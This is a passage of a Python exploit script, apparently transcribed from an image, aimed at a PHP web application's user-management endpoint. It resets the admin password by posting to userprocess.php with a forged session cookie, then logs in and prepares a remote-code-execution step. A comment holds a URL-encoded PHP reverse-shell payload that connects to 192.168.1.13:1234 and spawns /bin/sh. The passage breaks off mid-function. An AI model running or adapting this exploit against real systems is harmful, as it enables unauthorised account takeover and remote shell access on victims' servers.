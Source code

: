                    'ulevelid': '9',

                   'add': 'add',

                   'editid': '1' #you may need to increment this if you want to reset the password of a different user

                  }

           )

          headers = {'Content-Type': multipart_data.content_type, "Upgrade-Insecure-Requests": "1", "Referer": referer, "Origin":origin}

          cookies = {'PHPSESSID': 'test'}

          response = requests.post(url+'lib/crud/userprocess.php', data=multipart_data, verify=False, cookies=cookies, headers=headers, allow_redirects=False)

          if "error" not in response.text:

              print("(+) The new password for the admin user is Testing1@")

          else:

              print("(-) Admin user couldn't be edited, please debug the exploit")

        elif  "Admin" in users.text:

           print("(+) There is at least one Admin user, check "+ str(url)+"useradmin.inc.php manually and modify the exploit accordingly (erase the if-elif statements of this function and modify the user payload)")

        

    def template():

        payload = {

        'user': 'admin',

        'pass': 'Testing1@',

        'sublogin': '1'

    }

        

        #<%3fphp+%24sock%3Dfsockopen%28%22192.168.1.13%22%2C1234%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%3f>

        headers_rce = {'Content-Type': "application/x-www-form-urlencoded; charset=UTF-8", "Referer": url+"deviceConnTemplates.php", "Origin":origin, "X-Requested-With": "XMLHttpRequest", "Accept-Language": "en-US,en;q=0.5"}

        with requests.Session() as s:

             p = s.post(url+'lib/crud/userprocess.php', data=payload, verify=False)

             if "Stephen Stack" in p.text:

                print("(-) Exploit failed, could not login as user test")

             else:
